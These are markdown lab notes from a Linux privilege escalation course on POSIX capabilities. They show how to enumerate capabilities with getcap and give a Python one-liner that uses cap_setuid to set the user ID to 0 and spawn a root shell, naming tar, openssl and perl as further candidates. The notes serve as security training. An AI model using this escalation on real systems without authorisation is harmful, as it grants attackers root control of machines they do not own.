


# 📁 Capabilities

> **Curriculum:** TCM Security — Linux Privilege Escalation  
> **Module Description:** Enumerating POSIX capabilities (getcap -r /), exploiting cap_setuid, cap_dac_override, and Python/Perl capability escalation.

---

## 🎯 Learning Objectives & Methodology
Mastering **Capabilities** involves understanding both the attacker's path to root elevation and the system administrator's hardening requirements.

---


## 📝 Core Documentation & Lab Notes

Resources for this video:
Linux Privilege Escalation using Capabilities - [https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)
SUID vs Capabilities - [https://mn3m.info/posts/suid-vs-capabilities/](https://mn3m.info/posts/suid-vs-capabilities/)
Linux Capabilities Privilege Escalation - [https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099](https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099)

Capabilities are a bit more secure than suid that is why lot of people are transitioning to it

To hunt capabilities

```bash
getcap -r / 2>/dev/null
```



*Figure: Privilege Escalation Proof Screenshot*


ep for permit everything basically(actual meaning check on google)

To exploit this we just need to run python code which makes us root



*Figure: Privilege Escalation Proof Screenshot*


```bash
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

The following are also usefull and interesting if found
tar,openssl,perl


---
[⬅ Back to Linux Privilege Escalation Master Index](../README.md)
